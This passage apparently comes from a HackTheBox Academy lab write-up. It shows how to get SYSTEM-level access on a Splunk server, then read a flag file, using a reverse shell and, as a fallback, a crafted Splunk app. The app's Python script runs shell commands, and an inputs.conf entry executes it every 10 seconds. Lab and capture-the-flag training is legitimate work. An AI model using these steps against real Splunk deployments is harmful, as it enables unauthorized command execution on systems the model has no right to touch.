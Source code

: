 #### Step 4: Reverse Shell and Flag Retrieval
```bash
# Once reverse shell is established:
# Expected connection within 10 seconds of upload

# Verify system access
whoami
# Expected: nt authority\system

hostname
# Expected: Target system name

# Navigate to flag directory
cd c:\loot
dir

# Read flag content
type flag.txt

# HTB Academy Expected Flag Location: c:\loot\flag.txt
# HTB Answer: [FLAG_CONTENT] - Replace with actual discovered flag
```

#### Step 5: Alternative Method - Direct Command Execution
```bash
# If reverse shell method fails, create command execution app
cat > splunk_cmd/bin/cmd.py << 'EOF'
import subprocess
import sys
import os

# Execute command and write output to file
try:
    cmd = "type c:\\loot\\flag.txt"
    result = subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT)
    
    # Write result to accessible location
    with open("c:\\windows\\temp\\output.txt", "w") as f:
        f.write(result.decode())
        
except Exception as e:
    with open("c:\\windows\\temp\\error.txt", "w") as f:
        f.write(str(e))
EOF

# Create inputs.conf for command execution
cat > splunk_cmd/default/inputs.conf << 'EOF'
[script://.\bin\cmd.py]
disabled = 0
sourcetype = command_output
interval = 10
EOF

# Package and deploy, then check output file
# type c:\windows\temp\output.txt
```
